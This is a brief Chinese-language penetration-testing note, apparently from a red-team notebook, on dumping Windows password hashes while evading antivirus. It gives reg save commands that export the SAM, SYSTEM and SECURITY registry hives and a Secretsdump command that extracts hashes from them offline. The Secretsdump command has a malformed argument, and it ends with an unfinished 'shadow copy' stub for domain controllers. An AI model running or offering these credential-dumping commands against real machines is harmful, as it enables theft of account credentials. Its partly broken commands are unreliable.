 ****

### 常规免杀获取hash

#### 使用`注册表`导出hash,本地破解

- 执行命令

```cmd
reg save HKLM\SYSTEM sys.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\security security.hiv
```

**![image-20241107185026431](./assets/image-20241107185026431.png)**

- 执行`命令`(这里由于靶机没有安装net对应版本环境所以没有成功!)

```cmd
Secretsdump.exe -sam sam.hiv -security.hiv -system sys.hiv LOCAL
```

![image-20241107190030193](./assets/image-20241107190030193.png)

****

#### 导出sam文件

- 适用于`域控`数量很大的情况

```cmd
shadow copy
```
